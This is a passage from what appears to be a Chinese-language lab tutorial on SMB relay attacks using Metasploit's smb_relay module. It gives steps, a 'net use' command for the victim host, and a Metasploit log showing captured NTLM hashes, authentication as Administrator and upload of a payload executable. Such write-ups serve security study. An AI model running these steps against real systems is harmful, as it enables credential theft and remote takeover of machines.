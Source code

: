 这里使用MSF框架中的smb\_relay模块来实施SMB中继攻击  
Step 1：设置载荷  
[![](assets/1701222524-f0b5e3cbacab48a51d953996bb40d393.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144305-627329d8-8db9-1.png)  
Step 2：执行载荷  
[![](assets/1701222524-63db44f89642d6d00e20cbdaee3b6318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144316-68fb9c2c-8db9-1.png)  
Step 3：在window 7中上执行以下命令来访问恶意SMB服务

```plain
net use \\192.168.188.129\c$
```

Step 4：由于Metasploit的SMBRelay只支持NTLM v1，所以在攻击一些机器时会出现"Failed to authenticate"的情况，但是这种思路是正确的，所以综合来看这种攻击方法在实战中也不是那么被看好  
[![](assets/1701222524-1076e75ae08efec47591aa39378ee50a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144339-766a01dc-8db9-1.png)  
下面是一个Windows Server 2003中成功的示例：

```plain
msf exploit(windows/smb/smb_relay) > 
[*] Received 192.168.188.128:1032 X-90E984B4C76D4\Administrator LMHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 NTHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 OS:Windows Server 2003 R2 3790 Service Pack 2 LM:
[*] Authenticating to 192.168.188.128 as X-90E984B4C76D4\Administrator...
[*] AUTHENTICATED as X-90E984B4C76D4\Administrator...
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \hGaRjHmf.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
```